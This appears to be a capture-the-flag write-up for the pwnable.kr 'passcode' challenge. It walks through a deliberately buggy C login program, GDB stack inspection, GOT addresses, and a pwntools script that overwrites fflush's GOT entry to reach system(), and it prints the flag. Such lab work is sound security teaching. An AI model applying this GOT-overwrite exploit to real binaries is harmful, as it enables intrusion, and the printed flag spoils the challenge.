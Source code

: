 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - passcode"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```




```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
    scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else {
        printf("Login Failed!\n");
		exit(0);
    }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

This challenge was a bit frustrating at first so let's go easy.

First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.

After that we have a call to `login()` which reads two integers (or it was intended to do that), then compares them with two constants and if they match we get the flag.

If you compiled this code you will get:

```
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

That's a very famous `C` warning, the code is passing the variable itself instead of a pointer to it which will cause an arbitrary memory write and might cause an access violation.

if we run the program and enter two numbers we will get a segmentation fault:

```
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : 1
enter passcode2 : 1
Segmentation fault (core dumped)
```

The first `scanf()` for `passcode1` works just fine, we are writing to an arbitrary memory location but it somehow passed.

If only we could control where to write, we can overwrite any GOT entry with the address of the assembly instructions that calls `system("/bin/cat flag")` and we are done. 

Time for GDB:

```
gef➤  disassemble login 
Dump of assembler code for function login:
.....
   0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:	mov    DWORD PTR [esp],eax
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    eax,ds:0x804a02c
.....

gef➤  b *0x0804857c
Breakpoint 1 at 0x804857c

gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!

gef➤  x/xw $ebp-0x10
0xffffd018:	0xffffd074
```

As you can see, $ebp-0x10 which is the variable `passcode1` is pointing to `0xffffd074` (the address scanf() is writing to).

The trick of this challenge is that after a function stack frame is destroyed, the next function will start at the same base pointer:

```
 Func1
-------
| esp |
| ... |		 Func2
| ... |		-------
| ... |		| esp |
| ... |		| ... |
| ... |		| ... |
| ebp |		| ebp |		same base pointer
-------		-------				
```

Now it's time to make use of `welcome()` function, some values of the `input` array will be at the stack frame of `login()` function, we can use `pwn cyclic` to generate a pattern of 100 characters and fill the `input` array to see what happens.

```
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```
gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa!

gef➤  x/20xw $esp
0xffffd000:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd010:	0x61616177	0x61616178	0x61616179	0xac31af00
0xffffd020:	0xf7fa5000	0xf7fa5000	0xffffd048	0x08048684
0xffffd030:	0x080487f0	0x00000000	0x080486a9	0x00000000
0xffffd040:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7ddafb9

gef➤  x/xw $ebp-0x10
0xffffd018:	0x61616179
```

As you can see, some values of `input` are still present in the `login()` stack frame, and also the `passcode1` variable is overwritten with these values. To know the offset of these values from the beginning of the `input` array we can use `pwn cyclic` again with the value `0x61616179` which is the string `yaaa` (remember little endianness).

```
$ pwn cyclic -l yaaa
96
```

The value of `passcode1` is overwritten by input[96] to input[99], unfortunately these are the last 4 bytes of `input` array so we cannot overwrite `passcode2` (it would be too easy).

Back to our plan, now we have the ability to write to any arbitrary memory location we want, let's overwrite some GOT entries :)

Using objdump we can get the addresses of the GOT entries:

```
$ objdump -R passcode 

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

The address of `fflush()` which is `0x0804a004` seems good, it doesn't contain any bad characters like `\x00 or \x0a`.

Now to get the address of the assembly instructions that calls `system("/bin/cat flag")`:

```
gef➤  disassemble login
.....
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
.....
```

It's at `0x080485e3`, now get have all the pieces to complete this challenge. Remember that we need to send this address as a number string not as hex values.

# Solution:

```python
# solve.py

from pwn import *

buf = ""
buf += 'A' * 96		# offset to passcode1 
buf += p32(0x0804a004)	# passcode1 pointing to fflush GOT entry
buf += str(0x080485e3)	# send as a number not an address

print(buf)
```

```
$ python /tmp/solve.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Flag: `Sorry mom.. I got confused about scanf usage :(`